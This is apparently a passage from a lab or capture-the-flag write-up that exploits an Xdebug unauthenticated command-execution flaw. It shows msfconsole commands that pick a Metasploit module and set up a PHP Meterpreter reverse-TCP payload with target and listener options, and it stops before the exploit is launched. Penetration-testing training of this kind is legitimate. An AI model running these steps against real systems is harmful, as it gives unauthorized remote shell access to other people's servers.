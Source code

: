 The exploit can be found under `/usr/share/exploitdb/explots/php/remote`.

Trying to execute the Ruby file, an error message, informs us that it's a Metasploit module.

```bash
┌──(kali㉿kali)-[~]
└─$ ruby /usr/share/exploitdb/exploits/php/remote/44568.rb

/usr/share/exploitdb/exploits/php/remote/44568.rb:6:in `<main>': uninitialized constant Msf (NameError)

class MetasploitModule < Msf::Exploit::Remote
```

Using `msfconsole`, we searching for relevant exploits, and find a similar module.

```bash                             
┌──(kali㉿kali)-[~]
└─$ msfconsole --quiet    
msf6 > search exploit xdebug

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/http/xdebug_unauth_exec  2017-09-17       excellent  Yes    xdebug Unauthenticated OS Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/http/xdebug_unauth_exec
```

Using the found exploit, the target, listening port and listening host are defined.

```bash
msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/http/xdebug_unauth_exec) > options

Module options (exploit/unix/http/xdebug_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PATH     /index.php       yes       Path to target webapp
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies:
                                       socks5, socks5h, sapni, http, socks4
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/
                                       using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       Callback host for accepting connections
   SRVPORT  9000             yes       Port to listen for the debugger
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


```